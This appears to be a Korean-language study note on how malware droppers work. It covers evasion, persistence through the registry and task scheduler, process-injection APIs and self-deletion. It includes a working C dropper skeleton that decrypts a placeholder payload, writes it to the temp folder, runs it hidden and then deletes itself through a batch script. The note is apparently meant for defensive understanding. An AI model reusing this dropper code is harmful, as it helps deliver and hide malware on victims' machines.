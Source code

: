 ## Context

- **Tactic**: Malware Delivery Understanding
- **Technique**: Payload Deployment Analysis
- **Procedure**: Deconstruct dropper behavior and execution stages

## Core Idea

### Dropper란?
- Dropper는 **악성코드 배포를 위한 운반체(배달 상자)** 역할을 수행하는 프로그램이다.
- 최종적으로 실행될 `페이로드(랜섬웨어, RAT, 백도어 등)`를 시스템에 **드롭(Drop)**하여 실행 환경을 구성한다.
- 스스로 악의적인 행동을 수행하지 않으며, **페이로드를 안전하게 전달하고 실행하는 것이 주목적**이다.

![Dropper Schematic Diagram](./images/dropper-schematic-diagram.png)
**Figure 1.** dropper schematic diagram
### Dropper의 특징
- **탐지 회피**: 암호화된 형태로 페이로드를 포함하여 보안 솔루션의 탐지를 우회.
- **다양한 실행 방식**: 디스크에 파일을 저장하거나, 메모리에 직접 로드하여 실행 가능.
- **지속성 유지**: 레지스트리 등록, 작업 스케줄러 설정 등을 통해 시스템 재부팅 후에도 동작할 수 있음.
- **자기 삭제 기능**: 실행 후 탐지를 피하기 위해 흔적을 자동으로 제거 가능.

### Dropper 동작 흐름
![Dropper Execution Flow](./images/dropper-execution-flow.png)
**Figure 2.** dropper execution flow

1. **Dropper 실행** → 사용자가 Dropper(악성 실행 파일)를 실행
2. **페이로드 저장 (Dropping)**: 악성 페이로드를 저장하는 과정 수행
	- **디스크 저장:** `CreateFileA` → `WriteFile` 을 사용하여 디스크에 파일 드롭
	- **메모리 저장:** 페이로드를 메모리에 직접 로드(Reflective DLL Injection 등)하여 실행
3. **페이로드 실행 방식**: 저장된 페이로드를 실행하는 방식 선택
	- **디스크 실행:** `CreateProcessA/W`, `ShellExecute`를 사용하여 페이로드 실행
	- **메모리 인젝션:** `NtMapViewOfSection`, `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread` 등을 활용하여 다른 프로세스에 코드 인젝션 후 실행
4. **지속성 확보 (Persistence)**: 악성코드가 재부팅 후에도 실행되도록 설정 가능
	- **레지스트리 수정:** `RegSetValueExA/W`사용, 스타트업, Run 키 등을 수정해 자동 실행 설정
	- **작업 스케줄러 사용:** `schtasks /create` 통해 예약 작업(Task Scheduler)으로 자동 실행 설정
5. **자기 삭제 (Self-Delete)**: 실행 후 탐지를 피하기 위해 자기 자신을 삭제
	- **즉시 삭제:** `cmd /c del` 명령어 실행하여 즉시 파일 삭제
	- **재부팅 후 삭제:** `MoveFileExA`를 사용하여 재부팅 시 삭제 예약

## Code / Experiment
```c
#include <windows.h>
#include <stdio.h>
#include <shlobj.h>

// XOR encryption/decryption
void xor_cipher(char *data, size_t data_len, const char *key, size_t key_len) {
    for (size_t i = 0; i < data_len; i++) {
        data[i] ^= key[i % key_len];
    }
}

int main() {
    char tempPath[MAX_PATH], payloadPath[MAX_PATH], batchPath[MAX_PATH];
    char encryptedPayload[] = "ENCRYPTED_PAYLOAD_PLACEHOLDER";
    const char encryptionKey[] = "SECRET_KEY";

    // Generate random file path in temp directory
    GetTempPathA(MAX_PATH, tempPath);
    sprintf(payloadPath, "%s%08x.exe", tempPath, rand());

    // Decrypt payload in memory
    char *decryptedPayload = malloc(sizeof(encryptedPayload));
    memcpy(decryptedPayload, encryptedPayload, sizeof(encryptedPayload));
    xor_cipher(decryptedPayload, sizeof(encryptedPayload), encryptionKey, sizeof(encryptionKey) - 1);

    // Write decrypted payload to disk
    HANDLE hFile = CreateFileA(payloadPath, GENERIC_WRITE, 0, NULL,
                                CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile != INVALID_HANDLE_VALUE) {
        DWORD written;
        WriteFile(hFile, decryptedPayload, sizeof(encryptedPayload), &written, NULL);
        CloseHandle(hFile);
        free(decryptedPayload);

        // Execute payload
        STARTUPINFOA si = { .cb = sizeof(si), .dwFlags = STARTF_USESHOWWINDOW, .wShowWindow = SW_HIDE };
        PROCESS_INFORMATION pi;
        CreateProcessA(payloadPath, NULL, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
        CloseHandle(pi.hProcess); CloseHandle(pi.hThread);

        // Create batch script for self-deletion
        sprintf(batchPath, "%sdelete.bat", tempPath);
        HANDLE hBatch = CreateFileA(batchPath, GENERIC_WRITE, 0, NULL,
                                    CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hBatch != INVALID_HANDLE_VALUE) {
            char batchContent[512];
            sprintf(batchContent,
                "@echo off\n"
                ":repeat\n"
                "del \"%s\"\n"
                "if exist \"%s\" goto repeat\n"
                "del \"%s\"\n",
                __argv[0], __argv[0], batchPath);
            WriteFile(hBatch, batchContent, strlen(batchContent), &written, NULL);
            CloseHandle(hBatch);
            WinExec(batchPath, SW_HIDE);
        }
    } else {
        free(decryptedPayload);
    }

    return 0;
}
```

## Note

> One of several TTP-focused notes dissecting dropper mechanics.

**dropper-overview.md**
- **Tactic:** Malware Delivery Understanding
- **Technique:** Payload Deployment Analysis
- **Procedure:** Deconstruct dropper behavior and execution stages

**dropper-architecture.md**
- **Tactic:** Stealth Engineering
- **Technique:** Obfuscation & In-Memory Execution Patterns
- **Procedure:** Examine dropper file formats, storage methods, and execution models

**dropper-analysis-methods.md**
- **Tactic:** Threat Traceability
- **Technique:** Static & Dynamic Binary Analysis
- **Procedure:** Investigate dropper internals using r2, volatility, and process monitors

**dropper-code-deepdive.md**
- **Tactic:** Execution Mechanics Exploration
- **Technique:** Process Injection & Anti-Analysis
- **Procedure:** Reverse-engineer memory injection, control flow, and evasion logic

**dropper-mitigation.md**
- **Tactic:** Adaptive Defense Modeling
- **Technique:** Behavior Profiling & ML-Aided Detection
- **Procedure:** Design countermeasures using event logging, hardening, and ML classifiers
